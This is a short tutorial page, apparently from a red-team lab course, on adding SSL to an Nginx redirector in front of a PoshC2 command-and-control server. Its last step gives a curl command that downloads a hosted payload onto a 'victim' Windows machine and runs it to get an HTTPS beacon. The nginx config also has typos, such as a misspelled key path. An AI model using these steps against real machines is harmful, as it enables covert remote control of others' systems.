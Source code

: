 # How to Setup SSL in Nginx

1. First if your poshc2 is still running on port `80` we need to start a new project with using `443`
2. Now lets add our Poshc2 ssl certs to nginx
    ```bash
    scp {posh.crt,posh.key} username@<ubuntu-proxy-ip>:.
    ```
    > **NOTE:** This command will scp both files to the users `home` folder
3. Now lets move our ssl certs from our home directory to `/etc/nginx/`
    ```bash 
    mv {posh.crt,posh.key} /etc/nginx/.
    ```
    > **NOTE:** Make sure you are in your users home folder `/home/<usernmae>
4. Then lets move over to our ubuntu server and edit our `/etc/nginx/conf.d/lp_proxy.conf` and add our SSL rules under our rules for 80 coms
    ```nginx
    server {
        listen 443;
        server_name <ubuntu_server_ip>

        ssl_certificate /etc/nginx/posh.crt;
        ssl_certificate_key /etc/nginc/posh.key;
        ssl on;

        location / {
            proxy_pass https://192.168.178.128;
        }
    }
    ```

5. Now we just reload our nginx service and it should apply all our changes
6. On our Windows Vict. lets download our hosted payload through our proxy using `curl`
    ```bash
    curl -k https://192.168.178.132/<poshc2-uri> -o apples.exe && .\apples.exe
    ```
7. Boom you now have a HTTPS beacon. 

## [Return to course page](README.md)
